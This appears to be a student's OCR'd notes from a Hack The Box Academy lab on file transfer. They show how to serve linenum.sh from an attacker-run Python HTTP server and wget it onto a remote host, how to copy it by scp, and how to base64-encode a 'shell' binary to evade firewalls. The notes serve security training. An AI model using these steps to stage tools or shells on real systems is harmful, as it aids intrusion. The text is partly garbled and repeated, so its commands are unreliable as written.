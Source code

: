 ## [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) (link):
 
We host a python web server then cURL or wget from target machine.
 
```
HOST:  
burray@htb[/htb]$cd/tmp  
burray@htb[/htb]$python3 -m http.server 8000



Serving HTTP on 0.0.0.0 port 8000 ([http://0.0.0.0:8000/](http://0.0.0.0:8000/)) …  
REMOTE:  
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh



...SNIP...  
Saving to: 'linenum.sh'


linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]



burray@htb[/htb]$scplinenum.sh user@remotehost:/tmp/linenum.shuser@remotehost's password: *********￼linenum.sh








```
 
Serving HTTP on 0.0.0.0 port 8000 ([http://0.0.0.0:8000/](http://0.0.0.0:8000/)) …  
REMOTE:  
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
 
...SNIP...  
Saving to: 'linenum.sh'
 
linenum.sh 100%[==============================================>] 144.86K --.-KB/s in 0.02s
 
2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
   

## SCP (if we have ssh):
 
burray@htb[/htb]$scplinenum.sh user@remotehost:/tmp/linenum.shuser@remotehost's password: *********￼linenum.sh
   

## Base64 (useful for evading firewalls):
 
If we wanted to transfer a binary file called shell, we can base64 encode it as follows:  
burray@htb[/htb]$base64 shell -w 0f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU￼  
Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:  
  user@remotehost$echof0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell￼  
[File Transfer Reading](https://academy.hackthebox.com/module/details/24)